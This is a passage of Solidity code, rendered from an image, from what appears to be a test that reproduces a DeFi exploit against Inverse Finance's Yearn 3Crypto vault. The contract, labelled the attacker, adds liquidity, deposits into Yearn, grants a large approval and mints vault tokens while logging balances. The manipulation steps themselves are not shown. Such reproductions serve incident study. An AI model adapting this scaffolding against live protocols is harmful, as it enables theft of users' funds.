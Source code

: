 │       crv3crypto.balanceOf(address(this))                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After add-liquidity, WBTC balance of attacker:",                                                                                                                                                                                              │
│       WBTC.balanceOf(address(this)) / 1e8                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     yvCurve3Crypto.deposit(5375596969399930881565, address(this));                                                                                                                                                                                   │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Deposited to Yearns Vault, yvCurve3 balance of attacker:",                                                                                                                                                                                    │
│       yvCurve3Crypto.balanceOf(address(this))                                                                                                                                                                                                        │
│     );                                                                                                                                                                                                                                               │
│     yvCurve3Crypto.approve(                                                                                                                                                                                                                          │
│       0x1429a930ec3bcf5Aa32EF298ccc5aB09836EF587,                                                                                                                                                                                                    │
│       100000000000000000000000000000000000000000000000000                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     anYvCrv3CryptoInverse.mint(4906754677503974414310);                                                                                                                                                                                              │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Deposited to Inverse Yearn 3Crypto Vault, anYvCrv3Crypto balance of attacker:",                                                                                                                                                               │
│       anYvCrv3CryptoInverse.balanceOf(address(this))                                                                                                                                                                                                 │
│     );                                                                                                                                                                                                                                               │
│     address[] memory toEnter = new address[](1);                                                                                                                                                                                                     │